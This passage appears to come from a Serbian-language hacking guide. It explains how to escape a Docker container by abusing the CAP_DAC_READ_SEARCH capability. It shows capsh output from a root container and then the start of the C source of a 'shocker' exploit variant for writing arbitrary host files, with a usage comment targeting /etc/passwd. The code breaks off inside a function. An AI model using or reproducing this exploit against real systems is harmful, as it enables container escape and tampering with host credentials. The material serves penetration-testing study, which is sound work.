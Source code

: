 **Primer sa okruženjem + CAP\_DAC\_READ\_SEARCH (Docker probijanje izolacije)**

Možete proveriti omogućene sposobnosti unutar Docker kontejnera koristeći:

```bash
capsh --print
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+ep
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
secure-noroot: no (unlocked)
secure-no-suid-fixup: no (unlocked)
secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root)
```

Prvo pročitajte prethodni odeljak koji [**zloupotrebljava mogućnost DAC\_READ\_SEARCH za čitanje proizvoljnih datoteka**](linux-capabilities.md#cap\_dac\_read\_search) na hostu i **kompajlirajte** eksploit.\
Zatim, **kompajlirajte sledeću verziju eksploita shocker** koja će vam omogućiti da **pišete proizvoljne datoteke** unutar fajl sistema hosta:

```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <errno.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <dirent.h>
#include <stdint.h>

// gcc shocker_write.c -o shocker_write
// ./shocker_write /etc/passwd passwd

struct my_file_handle {
unsigned int handle_bytes;
int handle_type;
unsigned char f_handle[8];
};
void die(const char * msg) {
perror(msg);
exit(errno);
}
void dump_handle(const struct my_file_handle * h) {
fprintf(stderr, "[*] #=%d, %d, char nh[] = {", h -> handle_bytes,
h -> handle_type);
for (int i = 0; i < h -> handle_bytes; ++i) {
fprintf(stderr, "0x%02x", h -> f_handle[i]);
if ((i + 1) % 20 == 0)
fprintf(stderr, "\n");
if (i < h -> handle_bytes - 1)
fprintf(stderr, ", ");
}
fprintf(stderr, "};\n");
}
int find_handle(int bfd, const char *path, const struct my_file_handle *ih, struct my_file_handle *oh)
{
```